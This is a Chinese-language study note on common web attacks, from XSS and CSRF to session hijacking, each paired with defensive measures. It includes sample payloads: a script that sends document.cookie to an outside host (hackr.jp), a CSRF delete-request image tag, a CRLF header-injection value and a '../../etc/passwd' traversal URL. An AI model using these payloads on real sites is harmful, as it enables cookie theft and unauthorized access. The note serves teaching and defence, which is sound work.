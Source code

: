 [详情](http://blog.nsfocus.net/attack-common-technical-means-web-application/)

# XSS:
伪造url，用户点击后可能被获取一些信息
如 http://a.com/a.jsp?name=xss &lt;script src=http://b.com/b.js&gt;&lt;/script&gt;

窃取cookie
```javascript
<script src=http://hackr.jp/xss.js></script>

var content = escape(document.cookie);
document.write("<img src=http://hackr.jp/?"); 
document.write(content);
document.write(">");
```
执行完上述代码后会向b.com请求一张图片。但实际上是将当前页面的cookies发到b.com的服务器上，这样就完成了窃取cookies的过程。


防御：
将重要的cookies标记为http only，这样JavaScript中的document.cookie语句就不能获取到cookie了；
只允许用户输入我们期望的数据，如年龄的textbox中只允许输入数字，其余过滤；
对数据进行Html Encode处理，如<转化为&lt；、&转化为&amp；
过滤或移除特殊的Html标签，如：script、iframe；
过滤JavaScript事件的标签，如“onclick=”、“onfocus”等等。
少用innerHTML outerHTML v-html等
JavaScript 的 eval()、setTimeout()、setInterval() 等，都能把字符串作为代码运行。如果不可信的数据拼接到字符串中传递给这些 API，很容易产生安全隐患，请务必避免。


# CSRF
攻击者布下陷阱，如评论区恶意评论   &lt;img src="http://abc.com/blog/delete?id=1"/&gt;

用户触发后带着浏览器的cookie就利用用户的权限搞事情，如删除博客等

防御： 
使用验证码 
使用Post代替Get；
检查请求header中的referer也能帮助组织CSRF攻击，但服务器不是总能拿到referer，有些浏览器出于安全会隐私考虑会不发referer，所以也不常用； 在浏览其它站点前退出登录站点或者浏览结束后清理浏览器cookies；
生成一个随机的token，在用户提交数据的同时提交这个token，服务器端对比后如果不正确，则拒绝执行操作。


# SQL注入
ID = "lcl' ***** --" 
原理就是'截断sql，后续可以干自己想干的****

防御： 
不信任用户的输入；
不使用动态拼接sql，可使用参数化的sql或直接使用存储过程进行数据查询存取；
不使用管理员权限的数据库连接；
对机密信息进行加密或hash掉密码和敏感信息；
应用异常尽可能少在web提示，最好使用自定义信息对应用的异常信息进行包装；
采用工具或网络平台检测是否存在SQL注入。

# os注入
从Web应用中通过Shell来调用操作系统命令，如果在Shell调用时存在漏洞，就可以执行攻击者的非法OS命令
防御：
不调用外部程序；
过滤掉、；，[,],|,<,>,\之类的符号；
设置用户的权限。

# 首部注入 响应截断攻击
Web应用有时会将从外部接收到的数值，赋给响应首部字段Location和Set-Cookie。HTTP首部注入通过在某些响应首部字段需要处理输出值的时候，插入换行发动攻击。例如，设置任何Cookie信息（）、重定向至任意URL、显示任意的主体（HTTP响应截断攻击）等。
101**%0D%0A**Set-Cookie:+SID=123456789

攻击者输入的 %0D%0A， 原本应该属于首部字段Location的查询值部分， 但经过解析后， %0D%0A变成了换行符， 结果插入了新的首部字段。
这样一来， 攻击者可在响应中插入任意的首部字段。
加入%0D%0A%0D%0A 可以伪造body部分

防御：
过滤所有的response headers，除去header中出现的非法字符，尤其是CRLF。


# 目录遍历漏洞
如 http://example.com/read.php?log=../../etc/passwd
没有对. ..进行过滤
防御：
权限控制；
对包含了恶意的符号或者空字节进行拒绝；
使用绝对路径+参数控制访问目录，减小漏洞可能涉及的范围。





# 会话劫持
定义：在一次正常会话过程中，攻击者作为第三方参与到其中，他可以在正常数据包中插入恶意数据，也可以在双方的会话当进行监听，甚至可以是代替某一方主机接管会话。

如何防止会话劫持：

限制入网的连接；
设置网络拒绝接收假冒本地地址从互联网上发来的数据包；
加密，例如SSH。



